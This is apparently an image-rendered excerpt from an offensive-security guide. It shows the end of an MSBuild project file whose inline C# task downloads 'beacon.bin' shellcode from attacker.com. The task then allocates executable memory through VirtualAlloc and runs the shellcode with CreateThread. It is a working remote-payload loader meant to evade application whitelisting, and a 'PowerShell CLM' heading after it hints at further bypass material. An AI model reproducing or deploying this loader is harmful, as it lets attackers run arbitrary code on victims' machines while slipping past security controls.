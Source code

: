 ```c#
                    {
                        client.BaseAddress = "http://attacker.com";
                        shellcode = client.DownloadData("beacon.bin");
                    }
      
                    var hKernel = LoadLibrary("kernel32.dll");
                    var hVa = GetProcAddress(hKernel, "VirtualAlloc");
                    var hCt = GetProcAddress(hKernel, "CreateThread");

                    var va = Marshal.GetDelegateForFunctionPointer<AllocateVirtualMemory>(hVa);
                    var ct = Marshal.GetDelegateForFunctionPointer<CreateThread>(hCt);

                    var hMemory = va(IntPtr.Zero, (uint)shellcode.Length, 0x00001000 | 0x00002000, 0x40);
                    Marshal.Copy(shellcode, 0, hMemory, shellcode.Length);

                    var t = ct(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero);
                    WaitForSingleObject(t, 0xFFFFFFFF);

                    return true;
                }

            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    
            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

            [DllImport("kernel32")]
            private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr AllocateVirtualMemory(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

## PowerShell CLM
